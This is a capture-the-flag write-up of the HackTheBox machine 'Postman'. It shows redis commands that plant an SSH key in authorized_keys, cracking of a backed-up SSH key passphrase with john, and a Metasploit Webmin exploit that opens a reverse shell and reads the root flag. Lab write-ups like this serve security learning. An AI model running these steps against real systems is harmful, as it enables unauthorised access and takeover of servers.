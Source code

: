 ```yaml
---
title: HackTheBox Postman
author: Marius Kimmina
date: 2020-03-14 14:10:00 +0800
categories: [CTF, HackTheBox]
tags: [Linux, Redis, Webminn]
published: true
---
```


# 0x0 Introduction
My first post on a HTB machine and the second Box I managed to own (the first one is yet to retire so there will also be writeup for that) featuring redis and webmin.
![image](/assets/images/Postman_htb.png "Postman Logo")


# 0x1 Getting a foothold

As usual we start the box with an nmap scan
```
nmap -sV -sC -oA nmap/nmap 10.10.10.160
```
This revealed a webmin instance on version 1.1910 which has a privilege escalation vulnerability, but we need to be a user first to use that.
Everything else revealed on this first scan did not seem all that interesting so I went for a second, larger, scan.
```
nmap -p- -o nmap-all 10.10.10.10.160
```
Once that finished it revealed that redis was running on port 6379. Redis is a NoSQL Database that works with key-value-pairs, and there are multiple exploits known for it, so that makes a good target.
To work with redis we need to install the redis-tools:
```
sudo apt get install redis-tools
```
I followed a simple exploit (found here: https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) to replace redis's ssh key with our own, first we need to create an ssh-key of our own.

```
ssh-keygen -t rsa
```

Then wrote the public-key fo a file

```
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > pub.txt
```

Next I imported the key into redis

```
cat pub.txt | redis-cli -h 10.10.10.160 -x set s-key
```

And then we place that key for the redis-user:

```
mindslave@kalibox:~/hackthebox/Postman/redis$ redis-cli -h 10.10.10.160
10.10.10.160:6379> CONFIG GET dir
1) "dir"
2) "/var/lib/redis"
10.10.10.160:6379> CONFIG SET dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> CONFIG SET dbfilename authorized_keys
OK
10.10.10.160:6379> save
OK
```

Now we can ssh into the box as "redis" using our private ssh-key that we generated before.

```
redis@Postman:~$
```

# 0x2 Getting the user.txt

First I found out that user "Matt" existed on the system by doing a simple

```
ls /home
```

Then after enumerating the box for a while (looking for all sorts of interesting files/services/stuff that could lead us further).
I came across the /opt/backup directory and backups are of course always something to look for. In the backup directory was a file called id_rsa.bak, I copied the key to my host maschine and asked my friend john if he knew something about it. First we had to use the ssh2john.py to convert the ssh-key into a format that john can work with.

```
mindslave@kalibox:~/hackthebox/Postman/ssh$ /usr/share/john/ssh2john.py id_rsa > johnfile.txt
```

```
mindslave@kalibox:~/hackthebox/Postman/ssh$ john --wordlist=/usr/share/wordlists/rockyou.txt johnfile.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:04 DONE (2020-02-09 07:01) 0.2074g/s 2975Kp/s 2975Kc/s 2975KC/sa6_123..*7¡Vamos!
Session completed
```

Now we have the ssh-key and we know that the password for the key is "computer2008" but this is where this box got a little bit weird. When we tried to connect to the box as matt with the ssh-key and password we get a "connection closed" immediately, which had me confused for a couple of hours. Back on the redis-user, looking at the ssh-config (/etc/ssh/ssh_config and etc/ssh/sshd_config) I found the following line:

```
DenyUsers Matt
```

And honestly, if Matt is not allowed to connect via ssh, why does he even have an ssh-key? And a backup of that key even.
But well it turned out that Matt is not very good with passwords and reused the key password as his local password, so we could just

```
redis@Postman:~$ su Matt
Password:
Matt@Postman:/var/lib/redis$
```

and then we had access to the user.txt in Matt's home directory


# 0x3 Getting the root.txt

To get the root user we had to go back to the webmin instance that we found earlier. Matt was also registered there and of course he used the same password "computer2008" for that as well. Knowing that we could use the privilege escalation exploit that I mentioned earlier.
While I generally prefer to do things without Metasploit, sometimes it is just too convenient. So I entered Matts credentials and set the RHOSTS RPORT LHOST and LPORT Parameter and fired.

```
msf5 exploit(linux/http/webmin_packageup_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.87:9666
[+] Session cookie: cf236dc0067d4ca9410f89e64b2bb62d
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.87:9666 -> 10.10.10.160:45232) at 2020-02-09 10:17:54 +0100
whoami
root
cat /root/root.txt
a257741c5bed8be7778c6ed95686ddce
```

# 0x4 Closing words

This way my second box on HTB (probably the first one I get to post about tho, since it will retire first), and I learned quite a lot from it, especially the whole redis part that had an unnatural place for an .ssh folder to be. Thanks to the Author a great box for new people in the hacking field.

